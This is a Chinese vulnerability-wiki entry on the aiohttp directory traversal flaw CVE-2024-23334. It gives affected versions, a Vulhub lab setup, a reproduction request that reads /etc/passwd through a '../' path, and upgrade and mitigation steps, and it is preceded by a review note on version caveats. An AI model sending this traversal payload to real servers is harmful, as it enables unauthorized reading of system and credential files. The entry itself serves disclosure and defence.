


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：1.0.5 &lt; aiohttp &lt;3.9.2，是否含1.0.5需官方核；实验3.9.1

代码与实验材料：原样遍历GET、follow_symlinks=True前提明确，说明不需要实际symlink；结果截图

来源证据范围：官方PR8079/GHSA、Vulhub构建路径及研究，较好

- **结论使用边界（1）**：影响下界需核对且前言不完整；依据：前言3.9.1及以下比影响表宽；1.0.5用严格大于未解释。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：复现需保留原始路径与镜像固定；依据：浏览器/客户端可能规范化../，重新build还需标签与实验compose对应。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Python aiohttp 目录遍历漏洞 CVE-2024-23334

## 漏洞描述

aiohttp 是一个基于 asyncio 和 Python 的异步 HTTP 客户端/服务器框架。

在将 aiohttp 用作 Web 服务器并配置静态路由时，必须指定静态文件的根路径。此外，可以使用 `follow_symlinks` 选项来决定是否跟随指向静态根目录之外的符号链接。当 `follow_symlinks` 设置为 `True` 时，aiohttp 不会验证所读取的文件是否位于静态根目录之内。这可能导致目录遍历漏洞，从而使攻击者可以未经授权访问系统上的任意文件，即使系统中没有实际存在符号链接。该漏洞影响的版本包括 3.9.1 及以下。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2024-23334
- https://www.venustech.com.cn/new_type/aqldfx/20240401/27962.html
- https://github.com/aio-libs/aiohttp/security/advisories/GHSA-5h86-8mv2-jq9f
- https://github.com/aio-libs/aiohttp/pull/8079

## 漏洞影响

```
1.0.5 < aiohttp < 3.9.2
```

## 环境搭建

Vulhub 执行如下命令启动存在漏洞的 aiothttp 3.9.1 服务器：

```
docker compose up -d
```

服务启动后，通过 `http://your-ip:8080/` 即可访问网页。




>  `vulhub/aiohttp does not exist` 的话可以通过 [base](https://github.com/vulhub/vulhub/blob/master/base/python/aiohttp/3.9.1/) 中的 Dockerfile 重新 build 一下

## 漏洞复现

利用此漏洞，可以构造恶意路径，从而访问服务器中任意文件。

例如，构造如下请求来查看系统文件 `/etc/passwd`:

```
GET /static/../../../../../etc/passwd HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
```




## 漏洞修复

目前该漏洞已经修复，受影响用户可升级到 aiohttp >=3.9.2 版本，下载链接：[https://github.com/aio-libs/aiohttp/releases](https://github.com/aio-libs/aiohttp/releases)。

**临时措施**

应用程序仅在使用以下设置代码时容易受到攻击：

```
app.router.add_routes([
    web.static("/static", "static/", follow_symlinks=True),  # Remove follow_symlinks to avoid the vulnerability
])
```

即使升级到 aiohttp 的修复版本，也可遵循以下安全措施：

- 如果在受限制的本地开发环境之外使用 follow_symlinks=True，请立即禁用该选项。
- aiohttp 建议使用反向代理服务器（如 nginx）来处理静态资源，不要在 aiohttp 中将这些静态资源用于生产环境。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
